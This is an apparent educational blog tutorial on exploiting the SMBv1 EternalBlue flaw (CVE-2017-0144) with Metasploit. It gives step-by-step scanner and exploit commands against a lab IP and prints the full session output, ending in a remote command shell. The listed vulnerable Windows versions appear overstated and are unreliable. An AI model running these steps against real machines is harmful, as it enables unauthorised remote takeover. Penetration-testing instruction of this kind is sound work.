

## Introduction

In this article, I will guide you through the process of exploiting a Windows machine using the EternalBlue exploit (CVE-2017-0144) within the Metasploit framework. This exploit allows an attacker to gain remote code execution (RCE) on a vulnerable Windows machine.

### CVE-2017-0144

CVE-2017-0144 is a critical vulnerability in the Windows operating system that enables an attacker to execute arbitrary code on a remote system. This vulnerability was notably exploited by the WannaCry ransomware in 2017, causing widespread damage to organizations worldwide. It affects the SMBv1 protocol in Windows, allowing an attacker to send a specially crafted packet to a vulnerable system and execute arbitrary code.

Although this vulnerability is now considered old, I still remember the significant impact it had at the time. Today, let's explore how we can exploit this vulnerability using Metasploit.

## Disclaimer

This article is for educational purposes only. If you discover a vulnerable system, please report it to the system owner or administrator. Do not use this information for malicious purposes.

## Prerequisites

Before we begin, you need to have the following:

- A vulnerable Windows machine (Windows 7, Windows 8, Windows 10, Windows Server 2008, Windows Server 2012, Windows Server 2016)
- Kali Linux or any other GNU/Linux distribution with Metasploit installed

We assume that you have a strong understanding of ethical hacking and penetration testing concepts.

### Scanning for Vulnerable Machines

Metasploit provides a module to scan for vulnerable machines using the `smb_ms17_010` module. To use this module, follow these steps:

```bash
msfconsole
```

This command will open the Metasploit console. Once you are in the console, use the following command to load the `smb_ms17_010` module:

```bash
use auxiliary/scanner/smb/smb_ms17_010
```

Next, set the `RHOSTS` parameter to the IP range you want to scan. For example, to scan the IP address `192.168.0.113`, use the following command:

```bash
set RHOSTS 192.168.0.113
```

Now, initiate the scan by running the following command:

```bash
exploit
```

If the target machine is vulnerable, you will see the output: `Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)`.

### Exploiting the Vulnerability

After identifying a vulnerable machine, you can exploit the vulnerability using the `exploit/windows/smb/ms17_010_eternalblue` module. To use this module, follow these steps:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Next, set the `RHOST` parameter to the IP address of the vulnerable machine. For example, to exploit the IP address `192.168.0.113`, use the following command:

```bash
set RHOST 192.168.0.113
```

Now, exploit the vulnerability by running the following command:

```bash
exploit
```

You should receive a command shell from the Windows machine. You can now execute any command on the target machine, gaining full control over it using CVE-2017-0144.

```
[*] Started reverse TCP handler on 192.168.0.106:4444
[*] 192.168.0.113:445 - Connection to target for exploitation.
[+] 192.168.0.113:445 - Connection established for exploitation.
[+] 192.168.0.113:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.0.113:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.0.113:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61 Windows 7 Ultima
[*] 192.168.0.113:445 - 0x00000010  74 65 20 36 2e 31 20 53 65 72 76 69 63 65 20 50 te 6.1 Service P
[*] 192.168.0.113:445 - 0x00000020  61 63 6b 20 31 20 78 36 34 20 28 36 34 2d 62 69 ack 1 x64 (64-bi
[*] 192.168.0.113:445 - 0x00000030  74 29 00 t).
[*] 192.168.0.113:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.0.113:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.0.113:445 - Sending all but last fragment of exploit packet
[*] 192.168.0.113:445 - Starting non-paged pool grooming
[*] 192.168.0.113:445 - Sending SMBv2 buffers
[*] 192.168.0.113:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.0.113:445 - Sending final SMBv2 buffers.
[*] 192.168.0.113:445 - Sending last fragment of exploit packet!
[*] 192.168.0.113:445 - Receiving response from exploit packet
[*] 192.168.0.113:445 - ETERNALBLUE overwrite completed...
[*] 192.168.0.113:445 - Sending egg to corrupted connection.
[*] 192.168.0.113:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (192.168.0.106:4444 -> 192.168.0.113:49187) at 2018-05-19 12:56:02 -0400
[*] 192.168.0.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.0.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.0.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd ..
cd ..

C:\Windows> cd ..
cd ..

C:\> mkdir Hacked
mkdir Hacked
```

You now have full control over this exploit. You can perform any actions you desire on this machine.



## Conclusion

Exploiting CVE-2017-0144 using the Metasploit framework demonstrates the importance of keeping systems updated and patched against known vulnerabilities. While this article serves as a guide for educational purposes, it is crucial to remember the ethical implications of such actions. Always ensure that you have permission to test and exploit systems, and report any vulnerabilities you discover to the appropriate authorities.

## References

- Computer Skill. (2018, May 20). *Kali Linux - Tutorial #2 Using EternalBlue Hack Windows7 By IPV4* [Video]. YouTube. https://www.youtube.com/watch?v=mA1_o68khmc
- Computer Skill. (2018, May 20). *Kali Linux - Tutorial #1 Using EternalBlue Scanner* [Video]. YouTube. https://www.youtube.com/watch?v=WucGHIB7cJI
